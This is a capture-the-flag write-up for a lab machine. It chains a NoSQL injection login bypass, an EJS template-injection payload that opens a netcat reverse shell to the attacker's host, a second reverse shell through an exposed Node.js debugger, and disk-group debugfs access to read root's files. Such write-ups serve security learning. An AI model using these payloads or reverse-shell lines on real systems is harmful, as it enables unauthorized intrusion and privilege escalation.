# Do Not Disturb - Writeup

Let's start by looking for open ports with Nmap as usual and see what our starting point will be.



The scan reveals only two open ports:

- **22/tcp** running an SSH service.
- **80/tcp** hosting a **Node.js** web application.

With such a small attack surface, the web application is the obvious place to start.

Let's check it out.


We are presented with nothing more than a login page asking for a **Staff/Guest ID** and a **Passphrase**.

I inspected the page source and JavaScript files but couldn't find anything interesting. The next step was therefore to continue enumerating the web server for hidden content.

Using **ffuf** to brute-force directories produced the following results.



Among the discovered paths, the `/staff` endpoint immediately stood out, so let's visit it.



As expected, we are greeted with a **403 Forbidden** response, meaning that this section is restricted to authenticated users. We therefore need to find a way to bypass the login mechanism.

I first attempted several classic attacks including XSS to see if I could trigger requests toward a server under my control, but nothing seemed vulnerable. I also tested traditional SQL injection manually as well as with **SQLmap**, but neither produced any interesting results.

Since the application is built with **Node.js**, I considered that it was likely using a NoSQL database such as **MongoDB**, which is a very common choice in the Node.js ecosystem. I then tried several NoSQL injection payloads from **PayloadsAllTheThings**, and one of them behaved differently from the others.

The working request is shown below.



Sending the following POST request:

```http
username=attendant&password[$ne]=1
```

changed the server's response from the usual **401 Unauthorized** to a **302 Redirect** pointing toward `/staff`. Even better, the application issued a valid session cookie.

Although the browser still refused to load `/staff`, saving the newly issued cookie through the browser's Developer Tools and refreshing the page finally granted access.



The page contains an input field allowing users to submit customizable **EJS templates**.

After looking into EJS, I found the following description:

> A simple template engine used to build dynamic HTML pages using plain JavaScript code embedded inside HTML.



Reading further through the official GitHub repository, I came across the following warning:

> "EJS is effectively a JavaScript runtime. Its entire job is to execute JavaScript. If you run the EJS render method without checking the inputs yourself, you are responsible for the results."

This immediately suggested a possible **Server-Side Template Injection (SSTI)**.

To confirm my suspicion, I simply attempted to execute the `id` command from inside the template.

It worked.

I then started a Netcat listener on my attack machine and used the following payload to obtain a reverse shell.

```javascript
<%= eval(process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.XXX.XXX 9001 >/tmp/f')) %>
```



Once the shell was established, retrieving the user flag was straightforward.



# Privilege Escalation

With user access obtained, the next objective is becoming root.



I started by checking the usual privilege escalation vectors such as:

- Cron jobs
- Writable root-owned files
- SUID/SGID binaries

Unfortunately, none of these were exploitable.

I then listed the running processes.

```bash
ps -aux
```

One process immediately caught my attention.

```text
pipelin+     598  0.0  2.2 988568 45260 ?        Ssl  07:53   0:00 /usr/bin/node --inspect=127.0.0.1:9229 processor.js
```



The `--inspect` option starts the Node.js Inspector, exposing a debugging interface over WebSockets. Any JavaScript executed through this interface runs with the privileges of the process owner, which in our case is `pipelinesvc`.

The first step is obtaining the debugger's WebSocket endpoint.

According to the official Node.js documentation, requesting `/json` on the debugging port returns all the required information.

```bash
curl http://127.0.0.1:9229/json
```

The response contains the debugger's WebSocket URL together with additional information about the running process.



Normally, tools such as **wscat** or **websocat** could be used to connect directly, but neither is installed on the target machine. Instead, I chose to forward the port back to my own machine over SSH.

Before doing so, I stabilized my shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

I then created a temporary user on my own machine and established a reverse SSH tunnel from the target.

```bash
ssh -R 9229:127.0.0.1:9229 ctfuser@192.168.XXX.XXX
```

Opening a Chromium-based browser and navigating to `chrome://inspect` immediately detected the remote Node.js process.



Executing the `id` command from the DevTools console confirms that code is now running as `pipelinesvc`.



One detail immediately stood out:

```
uid=995(pipelinesvc) gid=995(pipelinesvc)
groups=995(pipelinesvc),6(disk)
```

The user belongs to the **disk** group.



Using the exact same technique as before, I spawned another reverse shell, this time running as `pipelinesvc`.

```bash
rm /tmp/f2;mkfifo /tmp/f2;cat /tmp/f2|sh -i 2>&1|nc 192.168.XXX.XXX 9002 >/tmp/f2
```



Membership in the **disk** group grants raw access to block devices, allowing us to inspect the filesystem directly with `debugfs`.

```bash
debugfs /dev/nvme0n1p1
```

Reading the root flag then becomes trivial.

```text
cat /root/root.txt
```



And with that, we obtain the root flag and complete the machine.
